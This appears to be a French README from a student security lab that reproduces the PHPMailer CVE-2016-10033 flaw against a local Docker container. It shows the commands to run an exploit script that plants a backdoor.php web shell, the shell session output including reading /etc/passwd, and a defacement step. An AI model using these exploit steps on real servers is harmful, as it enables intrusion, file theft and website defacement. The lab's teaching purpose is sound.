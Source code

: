 # Ensimag-ssi-2019-2020

## Getting Started
```
$ git clone "https://github.com/elhouti/ensimag-ssi-2019-20.git" && \
cd ensimag-ssi-2019-20
```

## Reproduire la vulnérabilité 

Étape  1: Tout d'abord on va utiliser une image docker qui permet de lancer une application web contenant un formulaire d'envoie de mails avec la librairie PHPMailer(voir index.php) sur un container.
```
$ docker run --rm -it -p 8080:80 vulnerables/cve-2016-10033 &
```
Lorsque l'image soit lancé sur un conteneur docker, visiter localhost:8080

![](index.png)

Étape 2: Lancement du script "exploit.sh", ce dernier injecte un malicious code dans le serveur distant (dans notre cas ça sera "localhost:8080", puisque l'application est exécuté sur une image docker locale) sous la forme d'un fichier php que nous avons l'appelé "backdoor.php" en exploitant La faille de PHPMailer qui ne stérilise pas les valeurs de courrier électronique avant l'exécution, et par conséquent il va nous donner la main d'éxécuter les commandes à distant (comme un Remot shell).
```
$ bash exploit.sh localhost:8080
```
output:
```
[+] exemple d éxploitation CVE-2016-10033
[+] Lancement de l éxploitation localhost:8080
[+] Cible exploitée, accès au shell sur http://localhost:8080/backdoor.php
[+] Vérification si le fichier backdoor a été creé sur le host ciblé
[+] Backdoor.php trouvé dans le host ciblé
[+] Vous avez la main pour saisir Les commandes à exécuter sur le serveur distant ...
[+] (tappez exit pour sortir du shell)
www-data
RemoteShell> ls
vulnerable
RemoteShell> ls vulnerable
travis.phpunit.xml.dist
RemoteShell> pwd
/www
RemoteShell> cat /etc/passwd
smmsp:x:105:108:Mail
RemoteShell> exit
[+] Sortie
```

C'est intéressant, mais pour tester quelque chose de plus concrète, lancant le script "deface.sh" qui exécute une commande sur le shell distant qui permet d'écraser le contenu du ficher "index.php" par une page noire contant le mot "defaced".
```
$ bash second_use_case.sh localhost:8080
```
output 

![](ssi.png)

